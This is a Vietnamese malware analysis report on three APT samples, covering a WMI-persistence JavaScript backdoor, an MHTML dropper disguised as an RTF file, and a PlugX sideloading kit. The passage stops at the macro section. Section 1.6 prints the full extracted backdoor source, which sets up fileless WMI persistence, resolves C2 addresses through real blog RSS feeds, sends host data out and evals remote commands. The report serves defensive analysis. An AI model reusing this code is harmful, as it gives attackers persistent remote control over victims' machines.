

# BÁO CÁO PHÂN TÍCH MÃ ĐỘC CHUYÊN SÂU (ADVANCED MALWARE ANALYSIS REPORT)

**Đối tượng phân tích:** 03 mẫu mã độc nén (`a.rar`, `b.rar`, `c.rar`)  
**Mật khẩu lưu trữ:** `infected`  
**Phương pháp phân tích:** Phân tích Tĩnh Chuyên sâu & Dịch ngược Mã máy (Deep Static Analysis & In-Memory Reverse Engineering)  
**Môi trường thực hiện:** Phân tích luồng bộ nhớ cách ly (In-Memory Byte Stream Extraction), an toàn 100% không kích hoạt thực thi trực tiếp trên hệ thống chủ.  
**Phân loại mối đe dọa:** APT Cyber Espionage Toolset, Fileless WMI Event Consumer Backdoor, MHTML Macro Dropper with COM Hijacking, DLL Search Order Hijacking Triad (PlugX Loader).

---

## MỤC LỤC TỔNG QUAN

1. [Tóm tắt Điều hành & Ma trận Đối chiếu Tổng quan](#1-tóm-tắt-điều-hành--ma-trận-đối-chiếu-tổng-quan)
2. [Phần 1: Phân tích Chi tiết Mẫu 1 — a.rar (a.exe)](#phần-1-phân-tích-chi-tiết-mẫu-1--arar-aexe)
   - 1.1. Thông số Kỹ thuật, Metadata & Cấu trúc PE
   - 1.2. Kỹ thuật Ngụy trang Hệ thống, Timestomping & Ghi Log
   - 1.3. Cơ chế Giải mã Động trong Bộ nhớ (In-Memory XOR Decryption)
   - 1.4. Thiết lập Bám trụ Không Cần File (Fileless WMI Event Subscription Persistence)
   - 1.5. Kênh Điều khiển C2 Dead-Drop Resolver qua Blog RSS
   - 1.6. Toàn bộ Mã nguồn JavaScript Bóc tách & Chú giải Từng Khối Lệnh
3. [Phần 2: Phân tích Chi tiết Mẫu 2 — b.rar (malw.rtf)](#phần-2-phân-tích-chi-tiết-mẫu-2--brar-malwrtf)
   - 2.1. Cấu trúc Đa phần MHTML Polyglot & Ngụy trang Đuôi RTF
   - 2.2. Bóc tách Macro VBA & Kỹ thuật Tấn công COM Hijacking
   - 2.3. Giải mã Nhị phân PE x86/x64 từ Bảng Dữ liệu Word Document
   - 2.4. Cơ chế Anti-Sandbox & Process Injection trong Bộ nhớ
   - 2.5. Phân tích Khối Shellcode & Sub-PE Giai đoạn 3 (WinHTTP Downloader)
4. [Phần 3: Phân tích Chi tiết Mẫu 3 — c.rar (Bộ Kit DLL Sideloading Triad)](#phần-3-phân-tích-chi-tiết-mẫu-3--crar-bộ-kit-dll-sideloading-triad)
   - 3.1. Mô hình Tấn công Kiềng Ba Chân (APT Sideloading Triad)
   - 3.2. Phân tích Tệp Thực thi Hợp pháp McAfee.exe (mcoemcpy.exe)
   - 3.3. Thư viện Độc hại McUtil.dll & Kỹ thuật Inline API Hooking
   - 3.4. Logic Kích hoạt Hẹn giờ (Time-bomb Delay) & Nạp Khối McUtil.dll.mc
   - 3.5. Cấu trúc Khối Shellcode McUtil.dll.mc & Kỹ thuật Chống Dịch ngược (Anti-Disassembly)
5. [Bảng Chỉ số Thỏa hiệp Tổng hợp (Consolidated IOCs)](#5-bảng-chỉ-số-thỏa-hiệp-tổng-hợp-consolidated-iocs)
6. [Ma trận Đối chiếu MITRE ATT&CK](#6-ma-trận-đối-chiếu-mitre-attck)
7. [Bộ Quy tắc Nhận diện (YARA Rules) & Kịch bản Ứng phó Sự cố (Incident Response)](#7-bộ-quy-tắc-nhận-diện-yara-rules--kịch-bản-ứng-phó-sự-cố-incident-response)

---

## 1. Tóm tắt Điều hành & Ma trận Đối chiếu Tổng quan

Ba mẫu mã độc được cung cấp phản ánh một chuỗi chiến thuật gián điệp mạng có chủ đích (APT) đa giai đoạn. Chúng áp dụng các kỹ thuật tinh vi nhất của mã độc hiện đại: che giấu mã thực thi dưới vỏ bọc hợp pháp, sống ngầm trong cấu trúc WMI/COM của hệ điều hành, và lợi dụng tệp tin sạch có chữ ký số để vượt qua các giải pháp bảo vệ Antivirus/EDR.

```mermaid
graph TD
    subgraph S1 [Giai đoạn 1 - Xâm nhập & Cắm chốt ngầm: Mẫu A]
        A0[a.exe / a.rar] --> A1[Tự sao chép thành Instell.exe]
        A1 --> A2[Timestomping khớp tệp Windows System32]
        A2 --> A3[XOR Decrypt JS Payload trong Bộ nhớ]
        A3 --> A4[Đăng ký WMI ActiveScriptEventConsumer]
        A4 --> A5[Dead-Drop C2 qua Blog RSS Feeds]
    end

    subgraph S2 [Giai đoạn 2 - Phishing & Leo thang thực thi: Mẫu B]
        B0[malw.rtf / b.rar] --> B1[Word tự mở MHTML MIME Multipart]
        B1 --> B2[VBA Macro giải mã ActiveMime]
        B2 --> B3[COM Hijack HKCU InprocServer32]
        B3 --> B4[Trích xuất DLL ẩn dưới main_background.png]
        B4 --> B5[Process Injection vào chính tiến trình Word]
        B5 --> B6[Shellcode nạp Sub-PE WinHTTP Downloader]
    end

    subgraph S3 [Giai đoạn 3 - Trụ vững & Triển khai Backdoor: Mẫu C]
        C0[Bộ kit c.rar] --> C1[McAfee.exe: Chữ ký số x.509 sạch]
        C1 -->|DLL Search Order Hijack| C2[McUtil.dll: Loader độc hại]
        C2 --> C3[Kiểm tra ngày hệ thống >= 01/01/2014]
        C3 --> C4[Inline Hook tại McAfee.exe + 0x2f0c]
        C4 --> C5[Nạp & Thực thi McUtil.dll.mc Shellcode]
        C5 --> C6[Sleep vô hạn duy trì tiến trình sạch McAfee]
    end
```



### Bảng Ma trận Đối chiếu Kỹ thuật 3 Mẫu Mã độc

| Tiêu chí | Mẫu 1: `a.rar` (`a.exe`) | Mẫu 2: `b.rar` (`malw.rtf`) | Mẫu 3: `c.rar` (Triad Kit) |
| :--- | :--- | :--- | :--- |
| **Định dạng gốc** | PE32 Executable (x86 GUI) | MHTML Archive ngụy trang `.rtf` | Bộ 3 tệp: PE EXE + PE DLL + Shellcode |
| **Họ mã độc liên quan** | APT30 / Naikon / SPACESHIP | CVE-2017-0199 / Wopebol / Cobalt | PlugX / Korplug APT Loader |
| **Kỹ thuật Lẩn tránh (Defense Evasion)** | Timestomping, Fileless WMI | Đuôi giả (.rtf), Giả ảnh (.png), Anti-Sandbox Sleep(10s) | DLL Sideloading qua McAfee Signed EXE, Opaque Predicates |
| **Kỹ thuật Bám trụ (Persistence)** | WMI ActiveScriptEventConsumer | COM Hijacking (`InprocServer32`) | DLL Search Order Hijacking / Infinite Sleep |
| **Cơ chế Nạp Payload** | In-Memory XOR Decryption (`0x63 ^ 0xe9`) | Base64 Table Extraction + Memory Injection | Inline Hooking (`0x2f0c`) + Direct Buffer Call |
| **Giao tiếp C2** | Dead-Drop Resolver qua RSS Blog | HTTP/HTTPS qua `WINHTTP.dll` | Shellcode Beacon / C2 Handler |

---

## Phần 1: Phân tích Chi tiết Mẫu 1 — a.rar (`a.exe`)

### 1.1. Thông số Kỹ thuật, Metadata & Cấu trúc PE

* **Tên tệp lưu trữ:** `a.rar` $\rightarrow$ Tệp thực thi bên trong: `a.exe`
* **Kích thước:** 20,481 bytes
* **Kiến trúc:** PE32 (x86 32-bit Console/GUI, Subsystem: Windows GUI)
* **Thời gian biên dịch (TimeDateStamp):** `0x53EA244D` (Tue, 12 Aug 2014 14:01:17 UTC)
* **Mã băm mật mã:**
  * **MD5:** `bc45beb8b862d2136a070ae793685386`
  * **SHA1:** `d7021f32a4b273aa40a5b9717333dac9c2155e8a`
  * **SHA256:** `2fb960b07ee894043007a1f3be2ff985863c27be4bd9f50b3ddb735963e113b9`
  * **ImpHash:** `8812ff21aeb160e8800257140acae54b`
* **Nhận diện diệt virus:** `Trojan:Win32/Wacatac.B!ml`, `Backdoor.APT30.ProbeScript`

#### Cấu trúc Phân vùng (PE Sections)

| Phân vùng | Virtual Address (RVA) | Virtual Size | Size of Raw Data | Đặc tính (Characteristics) | Đánh giá |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `.text` | `0x1000` | `0x0fc3` (4,035 B) | `0x1000` (4,096 B) | `IMAGE_SCN_MEM_EXECUTE \| READ` | Chứa mã máy thực thi |
| `.rdata` | `0x2000` | `0x08f6` (2,294 B) | `0x1000` (4,096 B) | `IMAGE_SCN_MEM_READ` | Chứa IAT và hằng số chuỗi |
| `.data` | `0x3000` | `0x1640` (5,696 B) | `0x2000` (8,192 B) | `IMAGE_SCN_MEM_READ \| WRITE` | Chứa khối payload mã hóa |

#### Bảng hàm Nhập (Import Address Table - IAT)
* `KERNEL32.dll`: Các hàm can thiệp tệp và tiến trình (`GetSystemDirectoryA`, `CreateFileA`, `SetFileTime`, `DeleteFileA`, `OutputDebugStringA`, `InitializeCriticalSection`).
* `ole32.dll`: `CoInitialize`, `CoCreateInstance` (phục vụ khởi tạo engine kịch bản COM).
* `OLEAUT32.dll`: `SysAllocString`, `SysFreeString` (thao tác với kiểu dữ liệu BSTR trong COM).
* `MSVCRT.dll` & `MSVCP60.dll`: Các hàm C Runtime tiêu chuẩn.

---

### 1.2. Kỹ thuật Ngụy trang Hệ thống, Timestomping & Ghi Log

Sau khi khởi chạy, `a.exe` thực hiện chuỗi hành vi thiết lập địa bàn hoạt động có độ ẩn nặc cao:

```
[Khởi chạy a.exe]
       |
       v
GetSystemDirectoryA()  --> Lấy đường dẫn C:\Windows\system32
       |
       v
CopyFileA()            --> Sao chép vào C:\Windows\system32\Instell.exe
       |
       v
SetFileTime()          --> Timestomping: Đổi ngày giờ tạo/sửa đổi trùng file gốc
       |
       v
CreateFileA()          --> Mở/tạo C:\Windows\system32\httpcom.log để ghi nhật ký
```

1. **Sao chép ngụy trang tên tệp (Typosquatting):**
   * Lấy đường dẫn hệ thống qua `GetSystemDirectoryA`.
   * Sao chép chính nó thành `C:\Windows\system32\Instell.exe`.
   * *Đánh giá chiến thuật:* Kẻ tấn công cố ý viết sai chính tả từ `Install` thành `Instell`. Khi người quản trị kiểm tra lướt danh sách tiến trình trong Task Manager hoặc thư mục System32, cái tên này rất dễ bị bỏ qua vì trông giống một tiện ích cài đặt hệ thống thông thường.
2. **Kỹ thuật Timestomping (Xóa dấu vết thời gian):**
   * Mã độc sử dụng API `CreateFileA` mở một tệp hệ thống có sẵn trong System32 (ví dụ `cmd.exe` hoặc `kernel32.dll`) để lấy thông tin thời gian thông qua `GetFileTime`.
   * Sau đó, nó áp dụng các mốc thời gian này lên tệp `Instell.exe` vừa tạo thông qua API `SetFileTime`.
   * *Mục đích:* Vô hiệu hóa tính năng sắp xếp theo "Date Modified" của Windows Explorer và các công cụ giám sát Forensics khi săn tìm tệp mới xuất hiện trên hệ thống.
3. **Ghi nhật ký hoạt động ngầm (Log File):**
   * Đường dẫn: `C:\Windows\system32\httpcom.log`.
   * Định dạng bản ghi: `[%s] - %s\r\n`. Tệp này ghi nhận lại trạng thái thực thi các câu lệnh JavaScript và các lượt gửi tin HTTP.

---

### 1.3. Cơ chế Giải mã Động trong Bộ nhớ (In-Memory XOR Decryption)

Tại hàm bắt đầu từ RVA `0x1000` (địa chỉ ảo `0x00401000`), mã độc thiết lập một vòng lặp giải mã khối dữ liệu nhị phân nằm trong section `.data`:

```asm
0x00401018: mov ecx, dword ptr [ebp - 8]       ; i (vị trí biến đếm)
0x0040101b: cmp ecx, dword ptr [0x00403024]   ; So sánh với độ dài (4,986 bytes)
0x00401021: jae 0x0040105f                    ; Nếu đã xong -> thoát vòng lặp
0x00401023: mov edx, dword ptr [ebp - 8]
0x00401026: movsx eax, byte ptr [edx + 0x403028] ; Đọc byte mã hóa tại buffer
0x0040102d: xor ecx, ecx
0x0040102f: mov cl, byte ptr [0x00403021]     ; Đọc khóa XOR 1 (0x63)
0x00401035: xor eax, ecx                      ; Byte ^ 0x63
0x00401037: mov edx, dword ptr [ebp - 8]
0x0040103a: mov byte ptr [edx + 0x403028], al
0x00401040: mov eax, dword ptr [ebp - 8]
0x00401043: movsx ecx, byte ptr [eax + 0x403028]
0x0040104a: xor edx, edx
0x0040104c: mov dl, byte ptr [0x00403020]     ; Đọc khóa XOR 2 (0xe9)
0x00401052: xor ecx, edx                      ; Byte ^ 0xe9
0x00401054: mov eax, dword ptr [ebp - 8]
0x00401057: mov byte ptr [eax + 0x403028], cl ; Ghi lại byte đã giải mã
0x0040105d: jmp 0x0040100f                    ; Lặp tiếp (i++)
```

* **Địa chỉ vùng nhớ mã hóa:** `0x00403028`
* **Độ dài dữ liệu:** Đọc từ DWORD tại `0x00403024` $\rightarrow$ Giá trị: `0x137A` (**4,986 bytes**)
* **Cặp khóa byte:**
  * Khóa 1 (tại `0x00403021`): `0x63`
  * Khóa 2 (tại `0x00403020`): `0xE9`
* **Công thức toán học tương đương:** `Plaintext[i] = Ciphertext[i] ^ 0x63 ^ 0xE9 = Ciphertext[i] ^ 0x8A`

Sau khi hoàn tất giải mã, bộ nhớ tại `0x00403028` xuất hiện một đoạn mã JavaScript hoàn chỉnh. Ngay sau đó, mã độc gọi `CoInitialize` và `CoCreateInstance` với CLSID `{0E59F1D5-1FBE-11D0-8FF2-00A0D10038BC}` (`CLSID_IActiveScript`) để nạp engine `JavaScript`, truyền trực tiếp chuỗi script vừa giải mã vào để thực thi trong không gian nhớ.

---

### 1.4. Thiết lập Bám trụ Không Cần File (Fileless WMI Event Subscription Persistence)

Khi đoạn mã JavaScript thực thi, nó không ghi bất kỳ giá trị nào vào Registry Run key thông thường mà sử dụng cơ chế **WMI Event Consumer** của hệ điều hành Windows để đạt được quyền tồn tại vĩnh viễn (Fileless Persistence):

```javascript
// 1. Khởi tạo ActiveScriptEventConsumer độc hại
var n = "winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\subscription",
    r = GetObject(n + ":ActiveScriptEventConsumer").spawninstance_();
r.name = "ProbeScriptFint"; 
r.scriptingengine = "javascript"; 
r.ScriptText = t + "..."; // Chứa toàn bộ logic backdoor
var i = r.Put_();

// 2. Thiết lập bộ đếm thời gian kích hoạt (Interval Timer)
r = GetObject(n + ":__IntervalTimerInstruction").spawninstance_();
r.Timerid = "ProbeScriptFint"; 
r.IntervalBetweenEvents = 6e3; // 6,000 miligiây = mỗi 6 giây kích hoạt một lần
r.Put_();

// 3. Thiết lập Event Filter lắng nghe sự kiện Timer
r = GetObject(n + ":__EventFilter").spawninstance_();
r.name = "ProbeScriptFint"; 
r.Query = 'select * from __timerevent where timerid="ProbeScriptFint"'; 
r.QueryLanguage = "WQL";
var s = r.Put_();

// 4. Ràng buộc Filter với Consumer (FilterToConsumerBinding)
r = GetObject(n + ":__FilterToConsumerBinding").SpawnInstance_();
r.Consumer = i.path; 
r.Filter = s.path; 
r.Put_();
```

#### Phân tích Cơ chế Bám trụ:
1. **Đối tượng thực thi:** Khi Timer phát tín hiệu mỗi 6 giây, tiến trình hệ thống `scrcons.exe` (WMI Standard Event Consumer Script Host) sẽ được Windows tự động triệu gọi để nạp và thực thi đoạn script lưu trong kho lưu trữ WMI Repository (`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`).
2. **Đặc tính Fileless:** Đoạn mã backdoor nằm hoàn toàn bên trong cơ sở dữ liệu WMI, không tồn tại dưới dạng một file `.js` độc lập trên ổ cứng. Ngay cả khi người dùng xóa file `a.exe`, backdoor vẫn tiếp tục hoạt động đều đặn mỗi 6 giây sau mỗi lần khởi động máy.

---

### 1.5. Kênh Điều khiển C2 Dead-Drop Resolver qua Blog RSS

Điểm đặc trưng của các nhóm APT (như APT30) là tránh nhúng cứng IP hoặc domain C2 vào mã nhị phân nhằm đối phó với việc bị đưa vào danh sách đen (Blacklisting). Thay vào đó, mã độc áp dụng kỹ thuật **Dead-Drop Resolver**:

```
[ProbeScriptFint (Mỗi 6s)]
           |
           v
GET các RSS Feed Blog hợp pháp (sosblogs, rediff, blogster)
           |
           v
Tìm kiếm thẻ tiêu đề: <title>@(Chuỗi_Mã_Hóa)@</title>
           |
           v
Giải mã bằng thuật toán dịch vòng tròn: circleDecode()
           |
           v
Thu được URL C2 thực tế (ví dụ: http://c2-server/gateway.php)
           |
           v
Gửi HTTP POST dữ liệu trinh sát (Reconnaissance)
           |
           v
Nhận phản hồi trong thẻ <div id="0a552b5a4352"> --> eval(Decode())
```

#### Danh sách Nguồn Dead-Drop RSS:
* `http://kumardeep.sosblogs.com/The-first-blog-b1/RSS-b1-rss2-posts.htm`
* `http://blogs.rediff.com/anilchopra/feed/`
* `http://www.blogster.com/kapoorsunil09/profile/rss`

#### Thuật toán Giải mã URL C2 (`circleDecode`):
Hàm bóc tách chuỗi nằm giữa hai ký tự `@` trong thẻ tiêu đề RSS `<title>@(...)@</title>` và áp dụng phép biến đổi dịch vòng:
```javascript
circleDecode: function(sc) {
    var base = sc.charCodeAt(0);
    var s = base - 32;
    var r = '';
    for (var i = 1; i < sc.length; i++) {
        var nc = sc.charCodeAt(i) - s - i + 1;
        if (nc < 32) {
            nc = 126 + (nc - 32) % 94;
        }
        r += String.fromCharCode(nc);
    }
    return r;
}
```

#### Giao thức Trinh sát (Victim Profiling):
Mã độc thu thập toàn diện thông tin hệ thống nạn nhân thông qua WMI và đóng gói thành tham số POST:
```text
cstype=server&authname=servername&authpass=serverpass&hostname=<CSName>&ostype=<Caption+SPMajor>&macaddr=<MAC>&owner=XDD&version=2.0.0&runtime=5000&t=<Phút_Giây>
```
* `version`: `2.0.0`
* `owner`: `XDD` (Định danh chiến dịch gián điệp của tác giả)
* `User-Agent` giả lập: `Mozilla/5.0 (Windows; U; Windows NT 5.1; rv:1.9.1) Gecko/20090624 Firefox/3.5`

#### Cơ chế Nhận và Thực thi Lệnh:
Mã độc bóc tách thẻ `<div id="0a552b5a4352">` từ phản hồi của máy chủ, giải mã payload bằng hàm `Decode` (đọc byte khóa đầu tiên làm key và XOR với từng phần tử cách nhau bởi dấu phẩy) rồi thực thi trực tiếp bằng `eval()`. Kết quả thực thi được mã hóa và gửi ngược lại C2 qua tham số `&command=result&commandresult=...`.

---

### 1.6. Toàn bộ Mã nguồn JavaScript Bóc tách & Chú giải Từng Khối Lệnh

Dưới đây là toàn bộ mã nguồn JavaScript đã được định dạng chuẩn từ nhị phân `a.exe`:

```javascript
/* =========================================================================
 * BÓC TÁCH MÃ NGUỒN PAYLOAD TỪ a.exe (APT30 WMI ACTIVE SCRIPT BACKDOOR)
 * ========================================================================= */

function e(e, t) {
    // 1. Tạo đối tượng Consumer bám trụ WMI
    var n = "winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\subscription",
        r = GetObject(n + ":ActiveScriptEventConsumer").spawninstance_();
    r.name = "ProbeScriptFint";
    r.scriptingengine = "javascript";
    
    // Đưa toàn bộ mã logic của Backdoor vào thuộc tính ScriptText
    r.ScriptText = t + "var sOwner='" + e + "';\
    var MAIN = function() {\
        $ = this;\
        $.key = 'W';\
        $.sFeedUrl = sXmlUrl;\
        $.sOwner = sOwner;\
        $.sXmlUrl = '';\
        $.oHttp = null;\
        $.oShell = null;\
        $.oStream = null;\
        $.sHostName = null;\
        $.sOSType = null;\
        $.sMacAddress = null;\
        $.sURLParam = null;\
        $.version = '2.0.0';\
        $.runtime = 5000;\
        $.oWMI = null;\
        $._x = ActiveXObject;\
    };\
    MAIN.prototype = {\
        /* Khởi tạo các COM Object thiết yếu */\
        InitObjects: function() {\
            $.oWMI = GetObject('winmgmts:{impersonationLevel=impersonate}!\\\\\\\\.\\\\root\\\\cimv2');\
            $.oShell = new $._x('WScript.Shell');\
            $.oStream = new $._x('ADODB.Stream');\
            $.GetOSInfo();\
            $.GetMacAddress();\
            $.GenerateUrlParam();\
        },\
        /* Truy vấn WMI tổng quát */\
        WMI: function(sql) {\
            return $.oWMI.ExecQuery(sql);\
        },\
        /* Thu thập phiên bản HĐH và Tên máy */\
        GetOSInfo: function() {\
            var e = new Enumerator($.WMI('Select * from Win32_OperatingSystem'));\
            if (!e.atEnd()) {\
                var item = e.item();\
                $.sOSType = item.Caption + item.ServicePackMajorVersion;\
                $.sHostName = item.CSName;\
            }\
        },\
        /* Thu thập địa chỉ MAC của Card mạng vật lý PCI đang hoạt động */\
        GetMacAddress: function() {\
            var e = new Enumerator($.WMI('Select * from Win32_NetworkAdapter where PNPDeviceID like \\\"%PCI%\\\" and NetConnectionStatus=2'));\
            if (!e.atEnd()) {\
                $.sMacAddress = e.item().MACAddress;\
            }\
        },\
        /* Đóng gói URL Parameter phục vụ Reconnaissance */\
        GenerateUrlParam: function() {\
            var time = new Date();\
            $.sURLParam = 'cstype=server&authname=servername&authpass=serverpass&hostname=' + $.sHostName + '&ostype=' + $.sOSType + '&macaddr=' + $.sMacAddress + '&owner=' + $.sOwner + '&version=' + $.version + '&runtime=' + $.runtime;\
            $.sURLParam += '&t=' + time.getMinutes() + time.getSeconds();\
        },\
        /* Dọn dẹp tiến trình scrcons.exe sau mỗi chu kỳ */\
        CleanObjects: function() {\
            $.oShell = null;\
            $.oStream = null;\
            var e = new Enumerator($.WMI('Select * from Win32_Process where Name=\\\"scrcons.exe\\\"'));\
            while (!e.atEnd()) {\
                e.item().terminate();\
                e.moveNext();\
            }\
        },\
        /* Giải mã chuỗi lệnh C2 gửi về (XOR với keycode đầu chuỗi) */\
        Decode: function(sourceStr) {\
            var keycode = sourceStr.charCodeAt(0);\
            var source = sourceStr.substr(1);\
            var vals = source.split(',');\
            var result = '';\
            for (var i = 0; i < vals.length; i++) {\
                result += String.fromCharCode(vals[i] ^ keycode);\
            }\
            return result;\
        },\
        /* Giải mã URL C2 từ tiêu đề Blog RSS */\
        circleDecode: function(sc) {\
            var base = sc.charCodeAt(0);\
            var s = base - 32;\
            var r = '';\
            for (var i = 1; i < sc.length; i++) {\
                var nc = sc.charCodeAt(i) - s - i + 1;\
                if (nc < 32) {\
                    nc = 126 + (nc - 32) % 94;\
                }\
                r += String.fromCharCode(nc);\
            }\
            return r;\
        },\
        /* Vòng lặp liên lạc C2 chính */\
        MainLoop: function() {\
            $.oHttp = new $._x('Microsoft.XmlHttp');\
            var feedUrlArry = $.sFeedUrl.split(';');\
            var start = new Date();\
            var oXml = new ActiveXObject('MSXML2.DOMDocument.3.0');\
            for (var n = 0; n < feedUrlArry.length; n++) {\
                var UrlList = new Array();\
                var URLnum = 0;\
                try {\
                    var tstr = feedUrlArry[n].match('http://.*?\\\\.php');\
                    if (tstr != null) {\
                        UrlList[URLnum++] = tstr;\
                    } else {\
                        /* Gửi GET request lấy bản tin RSS */\
                        $.oHttp.Open('GET', feedUrlArry[n], false);\
                        $.oHttp.setRequestHeader('User-Agent', 'Mozilla/5.0 (Windows; U; Windows NT 5.1; rv:1.9.1) Gecko/20090624 Firefox/3.5');\
                        $.oHttp.Send();\
                        var response = $.oHttp.ResponseText.replace(/(^\\s*)|(\\s*$)/g, '');\
                        var re = /<title>@(.*)@<\\/title>+/g;\
                        var titleList = response.match(re);\
                        for (var i = 0; i < titleList.length; i++) {\
                            try {\
                                oXml.loadXML(titleList[i]);\
                                var container = oXml.getElementsByTagName('title');\
                                var tmpstr = container[0].text.match('@(.*)@');\
                                UrlList[URLnum++] = $.circleDecode(tmpstr[1]);\
                            } catch (e) {}\
                        }\
                    }\
                    /* Duyệt qua các C2 URL đã giải mã */\
                    for (var Urlindex = 0; Urlindex < UrlList.length; Urlindex++) {\
                        $.sXmlUrl = UrlList[Urlindex];\
                        var runnum = 360;\
                        while (runnum-- > 0) {\
                            $.oHttp.Open('POST', $.sXmlUrl, false);\
                            $.oHttp.setRequestHeader('CONTENT-TYPE', 'application/x-www-form-urlencoded');\
                            $.oHttp.Send($.sURLParam);\
                            var response = $.oHttp.ResponseText.replace(/(^\\s*)|(\\s*$)/g, '');\
                            if (response.length > 0) {\
                                var commands = null;\
                                var container;\
                                try {\
                                    oXml.loadXML(response);\
                                    container = oXml.getElementsByTagName('div');\
                                    for (var i = 0; i < container.length; i++) {\
                                        if (container[i].getAttribute('id') == '0a552b5a4352') {\
                                            commands = eval('(' + container[i].text + ')').command;\
                                        }\
                                    }\
                                } catch (e) {}\
                                /* Thực thi các câu lệnh từ C2 */\
                                if (commands != null) {\
                                    var commandresult = '';\
                                    for (var i = 0; i < commands.length; i++) {\
                                        var result = 'no response';\
                                        try {\
                                            result = eval($.Decode(commands[i].value));\
                                        } catch (e) {}\
                                        if (i > 0) commandresult += ',';\
                                        commandresult += '\\'' + commands[i].id + '\\':\\'' + escape(result) + '\\'';\
                                    }\
                                    if (commandresult.length > 0) {\
                                        commandresult = '{' + commandresult + '}';\
                                        $.oHttp.Open('POST', $.sXmlUrl, false);\
                                        $.oHttp.setRequestHeader('CONTENT-TYPE', 'application/x-www-form-urlencoded');\
                                        $.oHttp.Send($.sURLParam + '&command=result&commandresult=' + commandresult);\
                                    }\
                                } else {\
                                    $.sXmlUrl = '';\
                                    runnum = 0;\
                                }\
                            }\
                            $.runtime = (new Date()).getTime() - start.getTime();\
                            WScript.Sleep(10000);\
                        }\
                        if ($.sXmlUrl.length > 0) return;\
                    }\
                } catch (e) {}\
            }\
        },\
        Fire: function() {\
            $.InitObjects();\
            try { $.MainLoop(); } catch (e) {}\
            $.CleanObjects();\
        }\
    };\
    new MAIN().Fire();";

    // 2. Ghi Consumer vào WMI
    var i = r.Put_();

    // 3. Tạo Timer định kỳ 6,000 ms (6s)
    r = GetObject(n + ":__IntervalTimerInstruction").spawninstance_();
    r.Timerid = "ProbeScriptFint";
    r.IntervalBetweenEvents = 6e3;
    r.Put_();

    // 4. Tạo EventFilter
    r = GetObject(n + ":__EventFilter").spawninstance_();
    r.name = "ProbeScriptFint";
    r.Query = 'select * from __timerevent where timerid="ProbeScriptFint"';
    r.QueryLanguage = "WQL";
    var s = r.Put_();

    // 5. Ràng buộc Filter với Consumer
    r = GetObject(n + ":__FilterToConsumerBinding").SpawnInstance_();
    r.Consumer = i.path;
    r.Filter = s.path;
    r.Put_();
    return "";
}

// Gọi thực thi với Campain ID = 'XDD' và danh sách Dead-Drop Blogs
e("XDD", 'var sXmlUrl="http://kumardeep.sosblogs.com/The-first-blog-b1/RSS-b1-rss2-posts.htm;http://blogs.rediff.com/anilchopra/feed/;http://www.blogster.com/kapoorsunil09/profile/rss";');
```

---

## Phần 2: Phân tích Chi tiết Mẫu 2 — b.rar (`malw.rtf`)

### 2.1. Cấu trúc Đa phần MHTML Polyglot & Ngụy trang Đuôi RTF

* **Tên tệp lưu trữ:** `b.rar` $\rightarrow$ Tệp bên trong: `malw.rtf`
* **Kích thước:** 949,986 bytes
* **Mã băm SHA256:** `61182036fd1e668ad818f64c351034344b54f92793b0dcc52045cb221f9bb2c2`
* **MD5:** `0a5a0c889fd8772da489a327d4fdd8d6`
* **Nhận diện diệt virus:** `Exploit:Win32/Wopebol.G2`, `Trojan.MHTML.Dropper`

#### Phân tích Cấu trúc MIME MHTML
Mặc dù mang phần mở rộng `.rtf` (Rich Text Format), tệp tin này **hoàn toàn không phải tệp RTF** (không bắt đầu bằng magic byte `{\rtf1`). Khi kiểm tra header thực tế:

```http
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----=_NextPart_01D495FF.1931A4F0"
```

Microsoft Word được thiết kế tương thích ngược cực kỳ mềm dẻo: khi người dùng nhấp đúp vào tệp `.rtf`, Word kiểm tra nội dung bên trong, nhận diện định dạng MIME Multipart và tự động kích hoạt module phân giải MHTML mà không đưa ra bất kỳ cảnh báo sai định dạng tệp nào.

#### Danh sách 8 Thành phần Bên trong (MHTML Parts):

| STT | Tên thành phần / Content-Location | Kích thước | Content-Type | Vai trò kỹ thuật |
| :---: | :--- | :--- | :--- | :--- |
| **0** | *MIME Root Header* | 359 B | `multipart/related` | Khai báo MIME boundary |
| **1** | `file:///C:/B1344472/nb2.htm` | 865,314 B | `text/html; charset="windows-1252"` | **Chứa bảng Table 1 lưu trữ nhị phân Base64** |
| **2** | `.../nb2_files/themedata.thmx` | 4,441 B | `application/vnd.ms-officetheme` | Theme hiển thị ngụy trang của Word |
| **3** | `.../nb2_files/colorschememapping.xml` | 502 B | `text/xml` | Bảng màu Word |
| **4** | `.../nb2_files/image001.png` | 71,388 B | `image/png` | Hình ảnh văn bản ngụy trang hiển thị |
| **5** | `.../nb2_files/editdata.mso` | 7,288 B | `application/x-mso` | **Gói ActiveMime nén chứa VBA Macro** |
| **6** | `.../nb2_files/filelist.xml` | 437 B | `text/xml; charset="utf-8"` | Danh sách tệp đính kèm |
| **7** | *MIME Trailer Boundary* | 19 B | `none` | Dấu kết thúc MIME `--boundary--` |

---

### 2.2. Bóc tách Macro VBA & Kỹ thuật Tấn công COM Hijacking

